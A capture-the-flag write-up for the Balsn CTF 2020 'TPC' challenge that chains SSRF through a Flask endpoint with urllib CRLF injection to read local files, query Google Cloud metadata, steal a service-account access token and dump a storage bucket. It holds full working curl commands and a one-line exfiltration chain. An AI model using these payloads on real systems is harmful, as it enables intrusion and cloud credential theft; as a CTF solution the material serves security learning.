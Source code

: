 ## TPC

by TnMch



By checking the url givng `http://35.194.175.80:8000/` we found a printed text that mentions the entry point for this challenge

<img src="https://user-images.githubusercontent.com/7364615/99298929-c7d13680-284a-11eb-8d4b-23d495400e72.png" alt="etc_passwd" style="zoom: 67%;" />



sending `file:///etc/passwd` as a **site** argument gives us the content for  `/etc/passwd`

```
view-source:http://35.194.175.80:8000/query?site=file:///etc/passwd
```

![Screenshot 2020-11-16 at 20.07.28](/Users/tnmch/Desktop/Screenshot 2020-11-16 at 20.07.28.png)

So its **SSRF** ( Server-side request forgery ), if we send `file:///proc/self/cmdline` we get the command line which include python file name `main-dc1e2f5f7a4f359bb5ce1317a`.py

```
/usr/local/bin/python/usr/local/bin/gunicorn main-dc1e2f5f7a4f359bb5ce1317a:app--bind0.0.0.0:8000--workers5--worker-tmp-dir/dev/shm--worker-classgevent--access-logfile---error-logfile-
```

 And finally read the source code http://35.194.175.80:8000/query?site=file:///opt/workdir/main-dc1e2f5f7a4f359bb5ce1317a.py`

```
import urllib.request

from flask import Flask, request

app = Flask(__name__)


@app.route("/query")
def query():
    site = request.args.get('site')
    text = urllib.request.urlopen(site).read()
    return text


@app.route("/")
def hello_world():
    return "/query?site=[your website]"


if __name__ == "__main__":
    app.run(debug=False, host="0.0.0.0", port=8000)
```



Simple code, if we read more on `urllib` we can find it vulnerable to **CRLF** : https://bugs.python.org/issue35906 (CVE-2019-9947)

And if we check `file:///etc/hosts` we find 

```
169.254.169.254 metadata.google.internal metadata
```

So we can read google cloud metadata using **SSRF** chained with **CRLF** 

```
curl -v 'http://35.194.175.80:8000/query?site=http://metadata.google.internal/computeMetadata/v1/instance/%20HTTP%2F1.1%0D%0AMetadata-Flavor:%20Google%0D%0Alol:%20'
```

As output we have 

```
attributes/
cpu-platform
description
disks/
guest-attributes/
hostname
id
image
legacy-endpoint-access/
licenses/
machine-type
maintenance-event
name
network-interfaces/
preempted
remaining-cpu-time
scheduling/
service-accounts/
tags
virtual-clock/
zone
```



We just next get access token , find out that we have access to storage **devstorage.read_only**

```
{
  "issued_to": "102193360015934362205",
  "audience": "102193360015934362205",
  "scope": "https://www.googleapis.com/auth/trace.append https://www.googleapis.com/auth/monitoring.write https://www.googleapis.com/auth/service.management.readonly https://www.googleapis.com/auth/servicecontrol https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/devstorage.read_only",
  "expires_in": 2844,
  "access_type": "online"
}
```

Reading **access_token**

```
curl -s 'http://35.194.175.80:8000/query?site=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token%20HTTP%2F1.1%0D%0AMetadata-Flavor:%20Google%0D%0Alol:%20'
```

And to read all `asia.artifacts.balsn-ctf-2020-tpc.appspot.com` bucket data

We have full cmd to just process all this steps :

```
mkdir out && access_token=$(curl -s 'http://35.194.175.80:8000/query?site=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token%20HTTP%2F1.1%0D%0AMetadata-Flavor:%20Google%0D%0Alol:%20' | jq -r '.access_token') && curl -s 'https://www.googleapis.com/storage/v1/b/asia.artifacts.balsn-ctf-2020-tpc.appspot.com/o?access_token='$access_token | jq -r '.items[].name' | while read obj;do curl -s -X GET -H 'Authorization: Bearer '$access_token https://storage.googleapis.com/asia.artifacts.balsn-ctf-2020-tpc.appspot.com/{$obj} --output out/output_$(echo $obj | cut -d ':' -f 2)  ;done && cd out && for i in $(ls); do mkdir files;tar -xvf $i -C files/ ;done && grep -r "BALSN" files/opt
```

And we just got the flag in the `/opt/workdir` directory

```
BALSN{What_permissions_does_the_service_account_need}
```

